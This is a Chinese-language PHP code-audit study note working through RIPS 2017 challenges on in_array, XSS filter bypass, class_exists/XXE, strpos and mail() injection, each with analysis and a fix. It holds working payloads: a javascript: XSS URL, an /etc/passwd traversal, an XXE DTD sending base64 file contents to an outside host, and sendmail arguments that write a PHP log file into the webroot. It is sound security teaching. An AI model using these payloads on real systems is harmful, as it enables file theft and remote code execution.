


# PHP代码审计学习 #

----------

项目来源：https://www.ripstech.com/php-security-calendar-2017/

## in_array()函数误用 ##

### 分析 ###

```php
class Challenge {
    const UPLOAD_DIRECTORY = './solutions/';
    private $file;
    private $whitelist;

    public function __construct($file) {
        $this->file = $file;
        $this->whitelist = range(1, 24);
    }

    public function __destruct() {
        if (in_array($this->file['name'], $this->whitelist)) {
            move_uploaded_file(
                $this->file['tmp_name'],
                self::UPLOAD_DIRECTORY . $this->file['name']
            );
        }
    }
}

$challenge = new Challenge($_FILES['solution']);
```

出现问题的源代码如上，使用`in_array()`函数检查匹配`file['name']`是否在`whitelist`中，但忽略了`in_array()`函数中未设置强匹配参数，导致了弱类型问题。

phpmanual中对in_array的参数解释如下

```
bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )

//大海捞针，在大海（haystack）中搜索针（ needle），如果没有设置 strict 则使用宽松的比较。

//strict
如果第三个参数 strict 的值为 TRUE 则 in_array() 函数还会检查 needle 的类型是否和 haystack 中的相同。
```

### 利用 ###

其实就是php弱类型的利用，程序员编写时由于不严谨认为输入一定会是int整型数据，我们输入str字符型数据然后利用php的弱类型特点即可。

弱类型的规律举例如下
```
<?php

$array = array(
    'egg' => true,
    'cheese' => false,
    'hair' => 765,
    'goblins' => null,
    'ogres' => 'no ogres allowed in this array'
);

// Loose checking -- return values are in comments

// First three make sense, last four do not

var_dump(in_array(null, $array)); // true
var_dump(in_array(false, $array)); // true
var_dump(in_array(765, $array)); // true
var_dump(in_array(763, $array)); // true
var_dump(in_array('egg', $array)); // true
var_dump(in_array('hhh', $array)); // true
var_dump(in_array(array(), $array)); // true

// Strict checking
var_dump(in_array(null, $array, true)); // true
var_dump(in_array(false, $array, true)); // true
var_dump(in_array(765, $array, true)); // true
var_dump(in_array(763, $array, true)); // false
var_dump(in_array('egg', $array, true)); // false
var_dump(in_array('hhh', $array, true)); // false
var_dump(in_array(array(), $array, true)); // false

?>
```

### 修复 ###

使用`===`强匹配或`in_array()`函数加上第三个参数`$strict=ture`

----------

## 一个XSS过滤绕过trick ##

### 分析 ###
```php
// composer require "twig/twig"
require 'vendor/autoload.php';

class Template {
    private $twig;

    public function __construct() {
        $indexTemplate = '' .
            '<a href="{{link|escape}}">Next slide »</a>';

        // Default twig setup, simulate loading
        // index.html file from disk
        $loader = new Twig\Loader\ArrayLoader([
            'index.html' => $indexTemplate
        ]);
        $this->twig = new Twig\Environment($loader);
    }

    public function getNexSlideUrl() {
        $nextSlide = $_GET['nextSlide'];
        return filter_var($nextSlide, FILTER_VALIDATE_URL);
    }

    public function render() {
        echo $this->twig->render(
            'index.html',
            ['link' => $this->getNexSlideUrl()]
        );
    }
}

(new Template())->render();
```
以php的一个模版引擎twig为例，对url进行XSS安全过滤，其中`escape`和`FILTER_VALIDATE_URL`进行了两次过滤转换。

第一次在第10行，`escape`过滤，使用的是php自带的`htmlspecialchars`函数


> htmlspecialchars
> (PHP 4, PHP 5, PHP 7)
> htmlspecialchars — 将特殊字符转换为 HTML 实体
> 
> ```& (& 符号)  ===============  &amp;
" (双引号)  ===============  &quot;
' (单引号)  ===============  &apos;
< (小于号)  ===============  &lt;
> (大于号)  ===============  &gt;```

第二次过滤在22行，使用filter_var函数用`FILTER_VALIDATE_URL`过滤器对`$nextSlide`变量进行过滤。检查是否是合法的url。

### 利用 ###
可以看到代码对XSS常用的"'<>符号进行了过滤，但我们可以利用`%0a`换行符的trick来逃逸过滤，可以通过以下payload执行，首先引入`javascript:`协议，然后利用javascript中`//`代表单行注释，而`%250a`经过一次urldecode变成`%0a`换行符，成功逃逸出注释行，从而进入`echo`函数中形成XSS。
` ?nextSlide=javascript://comment%250aalert(1)`

**稍微总结一下常规bypass思路，试敏感关键函数和敏感符号→试编码或注释符号等混淆方法→试伪协议。**

### 修复 ###
针对XSS敏感关键词进行黑名单过滤

----------

## class_exists函数和实例化可控导致的XXE漏洞 ##
### 分析 ###
代码如下
```php
function __autoload($className) {
    include $className;
}

$controllerName = $_GET['c'];
$data = $_GET['d'];

if (class_exists($controllerName)) {
    $controller = new $controllerName($data['t'], $data['v']);
    $controller->render();
} else {
    echo 'There is no page with this name';
}

class HomeController {
    private $template;
    private $variables;

    public function __construct($template, $variables) {
        $this->template = $template;
        $this->variables = $variables;
    }

    public function render() {
        if ($this->variables['new']) {
            echo 'controller rendering new response';
        } else {
            echo 'controller rendering old response';
        }
    }
}
```
这段代码中有两个安全漏洞。第8行中调用class_exists（）会触发文件包含漏洞。
PHP文档中对于`class_exist`函数的解释如下
>**class_exists** 
> 
> (PHP 4, PHP 5, PHP 7)
> 
> class_exists — 检查类是否已定义
> 
> 说明 
> 
> bool class_exists ( string $class_name [, bool $autoload = true ] )检查指定的类是否已定义。
> 
> 参数 
> 
> class_name
> 
> 类名。名字的匹配是不分区大小写的。
> 
> autoload
> 
> 是否默认调用 __autoload。


可知`class_exist`函数默认调用`__autoload`函数，其中调用了`include`函数，会造成文件包含漏洞。可以使用路径穿越来包含任意文件，但是使用像这样的`../../../../etc/passwd`路径穿越符号的前提是PHP版本在5~5.3(包含5.3)版本之间才可以。
但是第二个漏洞仍然适用于当前的PHP版本。在以下几行:
```php
$controllerName = $_GET['c']; //这里$controllerName可控
$data = $_GET['d'];           //这里$data可控  

if (class_exists($controllerName)) {
    $controller = new $controllerName($data['t'], $data['v']);
//这里使用可控的变量实例化了一个对象，而对象的名称及内容均可控。
```
这样的话，恶意的payload便可以控制实例化过程，任意构造函数，即使代码库本身没有易受攻击的函数。也可以使用PHP内置的SimpleXMLElement函数来进行XXE攻击，进行文件读取操作等行为。
### 利用 ###
 1.文件包含漏洞
 令`class_exist`函数传入形如`../../../../etc/passwd`的payload即可；

 2.实例化SimpleXMLElement进行XXE攻击，查看php手册，SimpleXMLElement构造函数说明如下：
> **SimpleXMLElement::__construct**
> 
> (PHP 5, PHP 7)
> 
> SimpleXMLElement::__construct — Creates a new SimpleXMLElement object
> 
> **说明** 
> final public SimpleXMLElement::__construct ( string $data [, int $options = 0 [, bool $data_is_url = FALSE [, string $ns = "" [, bool $is_prefix = FALSE ]]]] )
> 
> 创建一个新的SimpleXMLElement对象。
> 
> 参数 
> 
> data
> 
> 格式良好的XML字符串或XML文档的路径或URL（如果 data_is_url是）TRUE。
> 
> options
可选地用于指定其他Libxml参数。
> 
> 注意：
> 可能需要传递LIBXML_PARSEHUGE 以能够处理深度嵌套的XML或非常大的文本节点。
> 
> data_is_url
> 
> 默认情况下data_is_url是FALSE。使用TRUE指定data的路径或URL到一个XML文件，而不是字符串数据。
> 
> ns
> 命名空间前缀或URI。
> is_prefix
> TRUE如果ns是前缀，FALSE如果是URI; 默认为FALSE。

 所以构造形如`{"SimpleXMLElement":{"data":"http://localhost/xxe.xml","options":2,"data_is_url":1,"ns":"","is_prefix":0}}`其中SimpleXMLElement为实例化函数名，后续payload为SimpleXMLElement构造函数的内容，xxe.xml为XML实体文件。XML实体文件写法可以参考[XXE漏洞分析 from 404 Not Found](http://www.4o4notfound.org/index.php/archives/29/#pingback-28)这里就不多做探讨。

 举一个例子:
```xxe.xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://1.3.3.7:8000/xxe.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```

```xml.dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">      //这里使用base64编码是起读取文件时不丢失一些特殊符号的作用
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://1.3.3.7:8000/?%data;'>">
```

### 修复 ###
 1.将`class_exist`函数中的`bool $autoload`参数设为false，即不自动调用`__autoload`函数；或者`__autoload函数`中不要使用`include`函数；或升级PHP版本避免路径遍历符号的传递。
 
 2.PHP中防御XXE攻击方法：设置`libxml_disable_entity_loader(true);`；当然最大的问题还是不应该让实例化对象变成用户输入可控。

----------

## strpo()函数误用 ##
源码如下：
```php
class Login {
    public function __construct($user, $pass) {
        $this->loginViaXml($user, $pass);
    }

    public function loginViaXml($user, $pass) {
        if (
            (!strpos($user, '<') || !strpos($user, '>')) &&
            (!strpos($pass, '<') || !strpos($pass, '>'))
        ) {
            $format = '<?xml version="1.0"?>' .
                      '<user v="%s"/><pass v="%s"/>';
            $xml = sprintf($format, $user, $pass);
            $xmlElement = new SimpleXMLElement($xml);
            // Perform the actual login.
            $this->login($xmlElement);
        }
    }
}

new Login($_POST['username'], $_POST['password']);
```
### 分析 ###
可以看到此段代码的第8，9行使用`strpo()`函数检查payload中是否有`<``>`符号，以检查XML利用的敏感符号。检查后传入第11、12行的`$format`变量中，然后格式化生成XML。
`strpos()`函数文档如下：
> **strpos**
> 
> (PHP 4, PHP 5, PHP 7)
> 
> strpos — 查找字符串首次出现的位置
> 
> **说明** 
> int strpos ( string $haystack , mixed $needle [, int $offset = 0 ] )
> 返回 needle 在 haystack 中首次出现的数字位置。
> 
> **参数**
> haystack
> 在该字符串中进行查找。
> 
> needle
> 如果 needle 不是一个字符串，那么它将被转换为整型并被视为字符的顺序值。
> 
> offset
> 如果提供了此参数，搜索会从字符串该字符数的起始位置开始统计。 如果是负数，搜索会从字符串结尾指定字符数开始。
> 
> **返回值** 
> 返回 needle 存在于 haystack 字符串起始的位置(独立于 offset)。同时注意字符串位置是从0开始，而不是从1开始的。
> 
> 如果没找到 needle，将返回 FALSE。
> 
> **Warning**
> 此函数可能返回布尔值 FALSE，但也可能返回等同于 FALSE 的非布尔值。请阅读 布尔类型章节以获取更多信息。应使用 === 运算符来测试此函数的返回值。
 
这里**Warning**中已经提示了`strpos()`可能返回等同于FALSE的非布尔值，即在首位查询到了条件并返回了值为`0`，又因为PHP的弱类型特性，若没有使用`===`的强匹配，`0`就会等于`false`。

### 利用 ###
 前文已分析到令查询位置为首位即可，故payload可以为`user=<"><injected-tag%20property="&pass=<injected-tag>`
 
 其中首位的`<`可以令`strpo()`函数返回`0`即`FALSE`，从而绕过检查，`">`是为了闭合之前的内容，然后就可以利用XML进行各种XXE攻击的利用

### 修复 ###
使用`===`强匹配

----------

## mali()函数的危险性 ##

源代码：
```php
class Mailer {
    private function sanitize($email) {
        if (!filter_var($email, FILTER_VALIDATE_EMAIL)) {
            return '';
        }

        return escapeshellarg($email);
    }

    public function send($data) {
        if (!isset($data['to'])) {
            $data['to'] = 'none@ripstech.com';
        } else {
            $data['to'] = $this->sanitize($data['to']);
        }

        if (!isset($data['from'])) {
            $data['from'] = 'none@ripstech.com';
        } else {
            $data['from'] = $this->sanitize($data['from']);
        }

        if (!isset($data['subject'])) {
            $data['subject'] = 'No Subject';
        }

        if (!isset($data['message'])) {
            $data['message'] = '';
        }

        mail($data['to'], $data['subject'], $data['message'],
             '', "-f" . $data['from']);
    }
}

$mailer = new Mailer();
$mailer->send($_POST);
```
### 分析 ###
此漏洞主要是由于`mail()`函数的第五个参数，先看一下`mail()`函数的用法：
> **mail**
> 
> (PHP 4, PHP 5, PHP 7)
> 
> mail — 发送邮件
> 
> **说明**
> 
> bool mail ( string $to , string $subject , string $message [, string $additional_headers [, string $additional_parameters ]] )
> 发送一封电子邮件。
> 
> **参数**
> 
> **to**
> 收件人
> **subject**
> 主题
> **message**
> 邮件内容
> **additional_headers**
> 添加邮件的额外头部，如`CC:`Carbon Copy(抄送)、`BCC:`Blind CarbonCopy(秘密抄送)
> **additional_parameters**
> 传递给发送程序sendmail的额外参数。例如，当使用带有-f sendmail选项的sendmail时，可以使用此选项设置邮件发件人地址 。

在Linux系统上， php 的 mail 函数在底层中已经写好了，默认调用 Linux 的 **sendmail** 程序发送邮件。而在额外参数( additional_parameters )中， sendmail 主要支持的选项有以下三种：
> -O option = value
> 
> QueueDirectory = queuedir 选择队列消息
> 
> -X logfile
> 
> 这个参数可以指定一个目录来记录发送邮件时的详细日志情况。
> 
> -f from email
> 
> 这个参数可以让我们指定我们发送邮件的邮箱地址。

 在PHP中使用`mail()`函数的话需要在`php.ini`中配置以下两个选项中的一种：
 1.配置好SMTP（Simple Mail Transfer Protocol）即简单邮件传输协议的服务器hostname和port来告诉PHP使用那个代理。
 2.配置好一个邮件程序的文件地址，使其作为MTA(Mail Transfer Agent)即邮件传输代理。
 
 当PHP是用第2种方式配置的时候，`mail()`将传递给MTA程序运行，虽然PHP默认提供了`escapeshellcmd()`这个函数在这些`&#;|*?~<>^()[]{}$\, \x0A 和 \xFF`字符前插入`\`进行转义以防止代码注入的安全性问题，但是`mail()`函数的第5个参数`$additional_parameters`允许用户添加新参数的特性使得可以被攻击者利用。
```php
mail("myfriend@example.com", "subject", "message", "", "-f" . $_GET['from']); //程序代码举例

example@example.com -O QueueDirectory=/tmp -X /var/www/html/rce.php //payload举例 -O 可以用来重新配置sendmail选项 -X可以指定日志文件位置
```

 之前PHPMailer漏洞CVE-2016-10033就是这样发现的，影响到了包括像Wordpress这样广泛使用的程序。

 说完`mail()`函数继续来分析源码，源码中第17行`$data['from']`为用户可控，并且传入到了第31行`mail()`函数中的第5参数中。虽然使用了`sanitize`函数进行过滤，`sanitize`函数首先调用了`FILTER_VALIDATE_EMAIL`过滤器验证传入值是否为有效的电子邮件地址，然后使用了`escapeshellarg`函数对返回值进行了转码过滤。

首先讨论一下`FILTER_VALIDATE_EMAIL`这个过滤器，这个过滤器仅仅是以RFC822规则验证邮箱地址是否有效正确，但是并不会验证其安全性。附各PHP版本下绕过`FILTER_VALIDATE_EMAIL`的运行情况。可以看到在>=5.2.0版本`fliter_var()`函数才被添加，其中某些版本会返回**false**，所以测试中需要注意版本。



然后我们绕过`FILTER_VALIDATE_EMAIL`的情况下还需要绕过`escapeshellarg（）`和`escapeshellcmd（）`，先看一下PHP文档对这两个函数的描述。

> **escapeshellarg**
> 
> (PHP 4 >= 4.0.3, PHP 5, PHP 7)
> 
> escapeshellarg — 把字符串转码为可以在 shell 命令里使用的参数
> 
> **说明** 
> 
> string escapeshellarg ( string $arg )
> 
> escapeshellarg() 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，并且还是确保安全的。对于用户输入的部分参数就应该使用这个函数。shell 函数包含 exec(), system() 执行运算符 。


> **escapeshellcmd**
> 
> (PHP 4, PHP 5, PHP 7)
> 
> escapeshellcmd — shell 元字符转义
> 
> **说明**
> 
> string escapeshellcmd ( string $command )
> 
> escapeshellcmd() 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义。
> 
> 反斜线（\）会在以下字符之前插入： &#;`|*?~<>^()[]{}$\, \x0A 和 \xFF。 ' 和 " 仅在不配对儿的时候被转义。 在 Windows 平台上，所有这些字符以及 % 和 ! 字符都会被空格代替。


可以看到`escapeshellarg（）`和底层的`escapeshellcmd（）`是用来保护系安全，防止代码注入的转义函数。但是`escapeshellarg（）`和`escapeshellcmd（）`一起使用的话并不安全。

```php
<?php
$a=escapeshellarg("172.17.0.2' -v -d a=1");
$b=escapeshellcmd("172.17.0.2' -v -d a=1");
$c=escapeshellcmd(escapeshellarg("172.17.0.2' -v -d a=1"));
var_dump($a).PHP_EOL;
var_dump($b).PHP_EOL;
var_dump($c).PHP_EOL;
?>
```

如上我们使用`172.17.0.2' -v -d a=1`这样的payload来进行测试。
测试结果如下

可以看到在第1、2、4种输出中，`escapeshellcmd(escapeshellarg("172.17.0.2' -v -d a=1"))`的输出为`string(28) "'172.17.0.2'\\'' -v -d a=1\'"`
详细分析一下：

1. 传入的参数是：`172.17.0.2' -v -d a=1`。
2. 经过escapeshellarg处理后变成了`'172.17.0.2'\'' -v -d `a=1'，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
3. 经过escapeshellcmd处理后变成`'172.17.0.2'\\'' -v -d a=1\'`，这是因为escapeshellcmd对`\`以及最后那个没有配对的`'`进行了转义，而忽略对之前两对匹配了的`'`进行转意。
4. 最后执行的命令是`'curl 172.17.0.2'\\'' -v -d a=1\'`，由于中间的`\\`被解释为`\`而不再是转义字符，所以后面的`'`没有被转义，与再后面的`'`配对儿成了一个空白连接符。所以可以简化为`curl 172.17.0.2\ -v -d a=1'`，即向`172.17.0.2\`发起请求，**POST** 数据为`a=1'`。

此处分析学习自[https://paper.seebug.org/164/](https://paper.seebug.org/164/ "PHP escapeshellarg()+escapeshellcmd() 之殇")

### 利用 ###

最终传入`mail()`函数的第5参数的payload大概为`a"'(\ -OQueueDirectory=/tmp\ -X/var/www/html/test.php\ )"@a.com`,在执行时变成了`'-fa"'\\''\( -OQueueDirectory=/tmp -X/var/www/html/test.php \)"@a.com\'`，如上面的分析`-f`为MTA预设参数，`'-fa"\\'''\(`为第一部分，转义后运行时相当于`-fa"\(`,这部分作用就是将`-f`参数闭合造成后续payload逃逸形成注入；`-OQueueDirectory=/tmp`为第二部分可操作恶意内容，`-X/var/www/html/test.php`为第三部分可操作恶意内容，`\)"@a.com\'`为绕过`FILTER_VALIDATE_EMAIL`过滤的必须部分。这样结合起来就完成了注入，但是由于邮箱格式要求以及转义过多，真实进行测试时会带有很多`"``\``'`符号，还需要多多调整来进行测试。

### 修复 ###
**PHPmailer**官方的修复方案是，对用户传参的输入进行检测，如果有转义字符就不传递第5参数，也不会造成注入。
所以总结一下核心问题还是`escapeshellarg()`→`escapeshellcmd()`这一过程会出现重复转义造成的漏洞。


----------

##  ##